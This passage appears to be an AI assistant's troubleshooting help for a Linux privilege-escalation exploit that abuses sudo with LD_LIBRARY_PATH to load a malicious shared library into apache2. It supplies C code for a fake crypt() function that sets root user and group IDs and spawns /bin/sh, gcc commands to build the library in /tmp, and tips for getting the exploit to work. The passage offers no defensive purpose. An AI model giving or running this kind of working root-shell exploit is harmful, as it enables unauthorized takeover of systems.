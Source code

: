     sudo LD_LIBRARY_PATH=/tmp apache2
    ```

- If this simplified exploit works, then the issue lies in how `library_path.c` was originally implemented.

### **3. Modifying `library_path.c`**

Here’s how you could modify the `library_path.c` file to better mimic the original library:

#### **Step 1: Implement Necessary Functions**
- Determine which functions are called by `apache2` from `libcrypt.so.1`. You might need to implement those functions in `library_path.c`.

  For example, `libcrypt.so.1` typically provides functions like `crypt()`. Here’s a simplified version:
  ```c
  #define _GNU_SOURCE
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>

  char *crypt(const char *key, const char *salt) {
      printf("crypt() called with key: %s and salt: %s\n", key, salt);
      setuid(0);   // Set user ID to root
      setgid(0);   // Set group ID to root
      system("/bin/sh");  // Spawn a root shell
      return "pwned";
  }

  // Include any other necessary functions here
  ```

- Compile and test this modified code. The key is to ensure that any functions `apache2` expects from `libcrypt.so.1` are provided.

#### **Step 2: Test with Other Libraries**
- If `libcrypt.so.1` still doesn't work, try using another library like `libpcre.so.3` or `libaprutil-1.so.0`. Follow the same steps:
  ```bash
  gcc -o /tmp/libpcre.so.3 -shared -fPIC /path/to/your/simplified_library.c
  sudo LD_LIBRARY_PATH=/tmp apache2
  ```

### **4. Final Tips**

- **Incremental Development**: Start with a very basic shared object, confirm it works, and then gradually add complexity. This makes it easier to identify what’s going wrong.

- **Review Permissions**: Ensure that your `sudo` setup isn't restricting `LD_LIBRARY_PATH`. Some configurations of `sudo` prevent certain environment variables from being passed through.

- **Consult Logs**: Check system logs (e.g., `/var/log/syslog` or `/var/log/auth.log`) for any security alerts or errors related to your attempts.
